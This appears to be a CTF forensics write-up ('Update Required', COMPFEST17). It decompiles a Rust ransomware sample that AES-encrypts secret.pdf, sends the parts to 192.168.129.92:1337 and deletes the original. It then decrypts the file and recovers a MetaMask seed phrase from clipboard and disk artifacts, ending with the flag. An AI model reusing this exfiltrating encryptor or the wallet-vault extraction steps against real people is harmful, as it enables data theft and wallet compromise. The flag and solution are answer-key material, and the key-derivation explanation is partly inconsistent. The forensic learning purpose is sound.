





# Update Required

### Status : Upsolved

## Category
Digital Forensic

## Description
A researcher in Mondstadt's tech division received an urgent-looking HTML file, claiming to be a critical security patch. Trusting its source, they executed antivirus.exe and moments later, a secret PDF file disappeared.
The PDF contained a confidential override PIN tied to the Vision Distribution Network. To protect it, the researcher locked the PDF with their wallet's seed phrase (exported from a Chrome extension), joined with an underscore (__) as the password.
Although the wallet vault file remains on disk, the password to unlock it has since been lost. Fortunately, there's a lead: the researcher once copied the vault password to clipboard.

## Solution
They provide `chall.pcapng` and `update_required.ad1`. I extracted disk from `update_required.ad1` using **FTK Imager**.

I found `antivirus.exe` from extracted objects of `chall.pcapng` using `wireshark`. Then I decompiled it using **Ghidra**. Here is the main function:
```c
void __rustcall ransom::main(void)

{
  undefined8 uVar1;
  char *pcVar2;
  undefined1 local_38 [24];
  char *local_20;
  undefined8 local_18;
  
  pcVar2 = "secret.pdf";
  local_20 = "secret.pdf";
  local_18 = 10;
  encrypt_file_and_split(local_38,"secret.pdf",10);
  uVar1 = _<>::deref(local_38);
  send_parts(uVar1,pcVar2,"192.168.129.92",0xe,0x539);
  destroy_original("secret.pdf",10);
  core::ptr::drop_in_place<>(local_38);
  return;
}
```

There is 2 main function that I highlighted:
1. `encrypt_file_and_split()` to encrypt `secret.pdf` and split it into several parts.
2. `send_parts()` to send encrypted parts of `secret.pdf` to `192.168.129.92:1337`

**Obtaining every parts of encrypted `secret.pdf` :**

I used the filter : 
```
ip.addr == 192.168.129.92 && tcp.port == 1337
``` 
on Wireshark and extracted 3 different payloads then concatenated them into `secret.enc`.

**Decrypting `secret.enc` :**

`encrypt_file_and_split()`:
```c
undefined8 __rustcall
ransom::encrypt_file_and_split(undefined8 param_1,undefined8 param_2,undefined8 param_3)

{
  undefined1 auVar1 [16];
  undefined1 auVar2 [16];
  code *pcVar3;
  undefined8 *puVar4;
  undefined8 uVar5;
  ulonglong uVar6;
  undefined8 uVar7;
  undefined1 *puVar8;
  ulonglong uVar9;
  undefined8 local_6b8;
  undefined8 uStack_6b0;
  undefined4 local_6a8;
  undefined4 uStack_6a4;
  undefined4 uStack_6a0;
  undefined4 uStack_69c;
  undefined8 local_698;
  undefined8 uStack_690;
  undefined4 local_688;
  undefined4 uStack_684;
  undefined4 uStack_680;
  undefined4 uStack_67c;
  undefined8 local_678;
  undefined1 local_670 [24];
  undefined1 local_658 [720];
  ulonglong local_388 [2];
  undefined1 auStack_378 [720];
  undefined1 local_a8 [24];
  undefined8 *local_90;
  undefined8 local_88;
  undefined8 uStack_80;
  undefined8 local_78;
  undefined8 local_70;
  undefined8 uStack_68;
  undefined8 local_60;
  undefined4 local_58;
  undefined4 uStack_54;
  undefined4 uStack_50;
  undefined4 uStack_4c;
  undefined8 local_48;
  undefined8 local_40;
  undefined8 local_38;
  ulonglong local_20;
  undefined1 local_11 [17];
  
  local_40 = param_2;
  local_38 = param_3;
  generate_key_iv(&local_698);
  local_6b8 = local_698;
  uStack_6b0 = uStack_690;
  local_6a8 = local_688;
  uStack_6a4 = uStack_684;
  uStack_6a0 = uStack_680;
  uStack_69c = uStack_67c;
  uVar5 = std::fs::File::open(param_2,param_3);
  local_678 = core::result::Result<T,E>::expect(uVar5);
  alloc::vec::Vec<T>::new(local_670);
  puVar8 = local_670;
  uVar5 = _<>::read_to_end(&local_678);
  core::result::Result<T,E>::expect(uVar5,puVar8,"Failed to read file",0x13,&DAT_1400e2020);
  block_modes::traits::BlockMode::new_from_slices(local_388,&local_6b8,0x10,&local_6a8,0x10);
  if ((local_388[0] & 1) != 0) {
    core::result::unwrap_failed
              ("called `Result::unwrap()` on an `Err` value",0x2b,local_11,&::.rdata,&DAT_1400e203 8)
    ;
                    /* WARNING: Does not return */
    pcVar3 = (code *)invalidInstructionException();
    (*pcVar3)();
  }
  puVar8 = auStack_378;
  memcpy(local_658,puVar8,0x2d0);
  uVar5 = _<>::deref(local_670);
  block_modes::traits::BlockMode::encrypt_vec(local_a8,local_658,uVar5,puVar8);
  uVar6 = alloc::vec::Vec<T,A>::len(local_a8);
  uVar6 = uVar6 / 3;
  local_20 = uVar6;
  local_90 = (undefined8 *)alloc::alloc::exchange_malloc(0x48,8);
  uVar9 = uVar6;
  uVar5 = _<>::index(local_a8,uVar6,&DAT_1400e2050);
  alloc::slice::_<impl[T]>::to_vec(&local_88,uVar5,uVar9);
  auVar1._8_8_ = 0;
  auVar1._0_8_ = uVar6;
  if (SUB168(auVar1 * ZEXT816(2),8) != 0) {
    core::panicking::panic_const::panic_const_mul_overflow(&DAT_1400e2068);
LAB_140006e43:
                    /* WARNING: Does not return */
    pcVar3 = (code *)invalidInstructionException();
    (*pcVar3)();
  }
  uVar9 = uVar6;
  uVar5 = _<>::index(local_a8,uVar6,SUB168(auVar1 * ZEXT816(2),0),&DAT_1400e2080);
  alloc::slice::_<impl[T]>::to_vec(&local_70,uVar5,uVar9);
  auVar2._8_8_ = 0;
  auVar2._0_8_ = uVar6;
  uVar5 = SUB168(auVar2 * ZEXT816(2),0);
  if (SUB168(auVar2 * ZEXT816(2),8) != 0) {
    core::panicking::panic_const::panic_const_mul_overflow(&DAT_1400e2098);
    goto LAB_140006e43;
  }
  uVar7 = _<>::index(local_a8,uVar5,&DAT_1400e20b0);
  alloc::slice::_<impl[T]>::to_vec(&local_58,uVar7,uVar5);
  puVar4 = local_90;
  if (((ulonglong)local_90 & 7) == 0) {
    if (local_90 == (undefined8 *)0x0) {
      core::panicking::panic_null_pointer_dereference(&DAT_1400e20c8);
      goto LAB_140006fa1;
    }
  }
  else {
    core::panicking::panic_misaligned_pointer_dereference(8,local_90,&DAT_1400e20c8);
  }
  puVar4[2] = local_78;
  *puVar4 = local_88;
  puVar4[1] = uStack_80;
  puVar4[5] = local_60;
  puVar4[3] = local_70;
  puVar4[4] = uStack_68;
  puVar4[8] = local_48;
  *(undefined4 *)(puVar4 + 6) = local_58;
  *(undefined4 *)((longlong)puVar4 + 0x34) = uStack_54;
  *(undefined4 *)(puVar4 + 7) = uStack_50;
  *(undefined4 *)((longlong)puVar4 + 0x3c) = uStack_4c;
  alloc::slice::_<impl[T]>::into_vec(param_1,local_90,3);
LAB_140006fa1:
  core::ptr::drop_in_place<>(local_a8);
  core::ptr::drop_in_place<>(local_670);
  core::ptr::drop_in_place<>(&local_678);
  return param_1;
}
```

That function split `secret.pdf` into 3 parts then encrypt it using `AES-CBC` method. The `key` and `iv` can be obtained from the `generate_key_iv()` function.

```c
undefined8 * __rustcall ransom::generate_key_iv(undefined8 *param_1)

{
  code *pcVar1;
  undefined8 uVar2;
  ulonglong uVar3;
  undefined1 local_200 [112];
  undefined1 local_190 [32];
  undefined1 local_170 [119];
  undefined8 local_f9;
  undefined8 local_f1;
  byte local_e9;
  undefined8 local_e8;
  undefined8 local_e0;
  undefined8 local_d8;
  undefined8 local_d0;
  undefined8 local_c8;
  undefined8 local_c0;
  char *local_a8;
  char *local_a0;
  undefined8 local_98;
  ulonglong local_90;
  undefined8 local_88;
  undefined8 local_80;
  undefined8 local_78;
  ulonglong local_70;
  undefined8 local_68;
  undefined8 local_60;
  undefined8 local_58;
  undefined8 local_50;
  undefined8 local_48;
  ulonglong local_40;
  undefined8 local_38;
  undefined8 local_30;
  undefined8 local_28;
  undefined1 local_19 [17];
  undefined1 *local_8;
  
  local_a8 = "Mondstadt4Ever";
  local_a0 = "KleeLovesBoomsrc/main.rs";
  _<>::new(local_200);
  _<>::update(local_200,"KleeLovesBoomsrc/main.rs");
  _<>::update(local_200,"Mondstadt4Ever");
  memcpy(local_170,local_200,0x70);
  _<>::finalize(local_190,local_170);
  local_8 = local_190;
  uVar3 = 0x20;
  uVar2 = core::slice::raw::from_raw_parts(local_190);
  local_88 = 0x10;
  local_80 = 0x10;
  local_58 = 0;
  local_50 = 0x10;
  local_38 = 0x10;
  local_30 = 0;
  local_60 = 0x10;
  local_68 = 1;
  local_28 = 0x10;
  local_98 = uVar2;
  local_90 = uVar3;
  local_78 = uVar2;
  local_70 = uVar3;
  local_48 = uVar2;
  local_40 = uVar3;
  if (uVar3 < 0x10) {
    core::slice::index::slice_end_index_len_fail(0x10,uVar3,&DAT_1400e1fa8);
  }
  core::array::_<>::try_from(&local_e9,uVar2,0x10);
  if ((local_e9 & 1) == 0) {
    local_f9 = local_e8;
    local_f1 = local_e0;
    md5::compute(&local_d8,"KleeLovesBoomsrc/main.rs");
    local_c8 = local_d8;
    local_c0 = local_d0;
    core::slice::_<impl[T]>::reverse(&local_c8,0x10);
    *param_1 = local_f9;
    param_1[1] = local_f1;
    param_1[2] = local_c8;
    param_1[3] = local_c0;
    return param_1;
  }
  core::result::unwrap_failed
            ("called `Result::unwrap()` on an `Err` value",0x2b,local_19,&DAT_1400e1f60,
             &DAT_1400e1fc0);
                    /* WARNING: Does not return */
  pcVar1 = (code *)invalidInstructionException();
  (*pcVar1)();
}
```

There are 2 hardcoded strings: `KleeLovesBoomsrc/main.rs` and `Mondstadt4Ever`.

The `key` was obtained by taking first 16 bytes of the `SHA-256` hash of the concatenated strings.

The `iv` was obtained by reversing the `SHA-256` hash of `Mondstadt4Ever`.

> I don't know why but it only works if the first string is `KleeLovesBoom`, not `KleeLovesBoomsrc/main.rs`

`decrypt.py`:
```python
import hashlib
from Crypto.Cipher import AES
from Crypto.Util.Padding import unpad

def generate_key_iv():
    s1 = b"KleeLovesBoom"
    s2 = b"Mondstadt4Ever"

    sha256_digest = hashlib.sha256(s1 + s2).digest()
    aes_key = sha256_digest[:16]  

    md5_digest = hashlib.md5(s1).digest()
    aes_iv = md5_digest[::-1]  

    return aes_key, aes_iv


def decrypt_file(enc_file: str, out_file: str):
    key, iv = generate_key_iv()
    cipher = AES.new(key, AES.MODE_CBC, iv)

    with open(enc_file, "rb") as f:
        ciphertext = f.read()

    plaintext = cipher.decrypt(ciphertext)

    try:
        plaintext = unpad(plaintext, AES.block_size)
    except ValueError:
        print("[!] Warning: Padding error")
    with open(out_file, "wb") as f:
        f.write(plaintext)

    print(f"[+] Decrypted: {out_file}")


if __name__ == "__main__":
    decrypt_file("secret.enc", "secret.pdf")
```

`secret.pdf` is retrieved successfully. BUT I nedd password to open it.

**Obtaining wallet vault password :**

The description mention that the PDF passowrd is `wallet's seed phrase (exported from a Chrome extension), joined with an underscore (__)`. But to obtain the wallet's seed phrase I need to decrypt the wallet vault using vault password. The description also says that `the researcher once copied the vault password to clipboard`.

I used this reference: [https://www.inversecos.com/2022/05/how-to-perform-clipboard-forensics.html](https://www.inversecos.com/2022/05/how-to-perform-clipboard-forensics.html) to find the password from clipboard.




vault password : `m0ndstadtc1ty0fFr33dom`

**Find and decrypting vault :**

I used this reference: [https://medium.com/@0xVrka/unlocking-the-vault-disk-image-forensic-for-metamask-passphrase-recovery-via-master-passwords-8c44fcfd04ee](https://medium.com/@0xVrka/unlocking-the-vault-disk-image-forensic-for-metamask-passphrase-recovery-via-master-passwords-8c44fcfd04ee). The vault is located at :
```
\AppData\Local\Google\Chrome\User Data\Default\IndexedDB\chrome-extension_nkbihfbeogaeaoehlefnkodbefgpgknn_0.indexeddb.leveldb\000003.log
```
I used `strings` to extract the vault, then decrypted it using [https://metamask.github.io/vault-decryptor/](https://metamask.github.io/vault-decryptor/).




PDF password : `detect_above_congress_nerve_weasel_pottery_arctic_sustain_vendor_stick_excuse_unable`

**Opening `secret.pdf` using the password :**



## Flag
COMPFEST17{c0ngr@tulat1on_you_hav3_found_the_s3cret_and_here_is_y0ur_r3ward}